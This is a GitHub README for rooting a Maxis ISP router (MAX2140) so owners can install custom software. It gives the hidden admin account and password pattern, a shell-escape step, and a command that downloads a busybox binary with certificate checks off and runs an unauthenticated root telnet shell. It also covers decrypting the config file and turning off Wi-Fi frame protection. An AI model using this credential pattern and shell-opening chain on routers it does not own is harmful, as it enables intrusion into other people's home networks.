 ## max2140_bin

# Enabling ssh/telnet/ftp server
The key to full access manifests itself in the form of !!bestHOME!!xxxx (Shhh, don't tell anyone it's last 4-digit of the serial number). You must disguise yourself as MaxARSysOpr.

Listen to me, hacker, your time has come, the clue to breaking free is in `Security->Access Control`. The ball is now in your court!

# Gaining root access for custom installations 
Prerequisites : 
- Working MaxARSysOpr password
- A modicum of knowledge 
- Enabled telnetd/ssh from the UI@192.168.1.254

Steps:

1. Log in to either telnet, shh or serial port.
2. Run `echo $(sh)`
3. Followed by `wget --no-check-certificate https://github.com/B83C/max2140_bin/blob/main/busybox?raw=true -O /tmp/busybox && chmod +x /tmp/busybox && /tmp/busybox telnetd -l /bin/sh -p 1234` 
6. You're basically done! Connect to the router with `telnet 192.168.1.254 1234` (if you are on *nix). 
7. Voila full root access to the router! Be warned that you have just added another vulnerability to the system (that won't persist across reboot, of course), and I am not responsible for any damages caused.

# Decrypting/Encrypting the configuration file
I was tired of using the openssl client, so I wrote a utility in Rust. Check it out [here](decipher/)


To use the tool, you can either run `./max_decipher <input_file> <output_file>`, or let it prompt you for the correspending paths by not specifying the files.


FYI: Configuration related operations are accessible under Management > Configuration


# Files

| Path           | Uses                                                                                  |
|----------------|---------------------------------------------------------------------------------------|
| busybox        | Pre-built busybox binary                                                              |
| busybox_config | Build config file, copy it into the root path of the busybox repo as .config to build |
| scripts/rrmnt  | Convenient helper tool to remount / of the router as rw/ro                            |
| decipher/*     | Helper tools written in Rust to help decipher the configuration file (currently closed source) |

# Hurdles
- No firmware available as of now, if you have a stock router unmodified, kindly let me know cuz I want a working back up for my router.
- Some software problems that came along with the stock firmware

# Known problems that can be fixed / worked around
- Most importantly, dhcpcd static ip, the web UI is known not to work properly, but by gaining root access, you can fix this yourself by editing /etc/udhcpd.conf (remember to remount the rootfs as rw)
- And lack of features, i.e. custom dyn ip server, VPN (it has ipsec), and some other feasible stuff... Btw I got v2ray to run on this thing but the only problem is that maxis is very ungenerous, they limit your upload speed to 50mbps as opposed to time where upload and download are the same! 
- *Devices disconnect immediately upon authenticating (especially old devices)* : need to change ieee80211w=1 to ieee80211w=0 in /tmp/wl1_hapd.conf and restarting the interface wl1. It can be fixed by doing ```nvram set wl0_mfp=0``` ```nvram set wl0.1_mfp=0``` ```nvram set wl1_mfp=0``` ```nvram set wl1.1_mfp=0``` followed by ```nvram commit```( This will turn off Management Frame Protection in favor of backward compatibility with older devices? Not sure, but it allows android 5/6 devices to connect without any issues)
  
# Legal?
Well, Idk, the goal here is to provide end-users with the rights to add their custom binaries to the stock router, extending its functionalities ( and also to reduce e-waste, since we do not have to get a new router for what we demand ). The benefits are endless, that said, I am not responsible for any damages done to your router, and you are supposed to have at least some knowledge about embedded linux / linux. Happy modding! 
